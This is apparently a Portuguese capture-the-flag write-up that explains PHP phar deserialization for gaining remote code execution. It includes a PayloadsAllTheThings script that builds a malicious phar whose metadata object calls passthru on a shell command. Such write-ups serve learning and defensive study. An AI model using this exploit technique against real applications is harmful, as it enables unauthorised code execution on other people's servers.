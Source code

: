 # Exploitation
## Parte 2

O objetivo de um ataque de desserealização insegura em uma aplicação web é poder manipular/injetar objetos, e é o que temos que fazer com o objeto $packagename para conseguir um RCE.

Vamos utilizar arquivos phar que são gerados com a classe Phar que é utilizada para empacotar aplicações PHP em um único arquivo que pode ser facilmente distribuído e executado. Se ficou complicado explicarei melhor, pense em um arquivo zip com varias coisas dentro, esse é o arquivo phar no php porém com vários objetos e classes dentro.

A sacada é que existem algumas funções no php que quando executadas em arquivos phar desserealizam os objetos dele, uma dessas funções é a filesize(), então o que temos que fazer é instanciar a classe Package onde está a parte vulnerável da aplicação e declarar o nosso $package_name com o nosso payload.

Como na outra parte da exploração vou deixar alguns links de artigos e em especial um vídeo do ippsec (que inclusive narra o UHC em algumas edições).

Artigos: 
- [https://pentest-tools.com/blog/exploit-phar-deserialization-vulnerability/](https://pentest-tools.com/blog/exploit-phar-deserialization-vulnerability/)
- [https://blog.ripstech.com/2018/new-php-exploitation-technique/](https://www.youtube.com/watch?v=fHZKSCMWqF4)

Vídeos:

- [https://www.youtube.com/watch?v=fHZKSCMWqF4](https://www.youtube.com/watch?v=fHZKSCMWqF4)

Ok, vamos começar a brincadeira!

Para gerar o arquivo phar vou utilizar um script pronto do PayloadAllTheThings: 

([https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure Deserialization/PHP.md#php-phar-deserialization](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md#php-phar-deserialization))

```php
<?php
class PDFGenerator { }

//Create a new instance of the Dummy class and modify its property
$dummy = new PDFGenerator();
$dummy->callback = "passthru";
$dummy->fileName = "uname -a > pwned"; //our payload

// Delete any existing PHAR archive with that name
@unlink("poc.phar");

// Create a new archive
$poc = new Phar("poc.phar");

// Add all write operations to a buffer, without modifying the archive on disk
$poc->startBuffering();

// Set the stub
$poc->setStub("<?php echo 'Here is the STUB!'; __HALT_COMPILER();");

/* Add a new file in the archive with "text" as its content*/
$poc["file"] = "text";
// Add the dummy object to the metadata. This will be serialized
$poc->setMetadata($dummy);
// Stop buffering and write changes to disk
$poc->stopBuffering();
?>
```

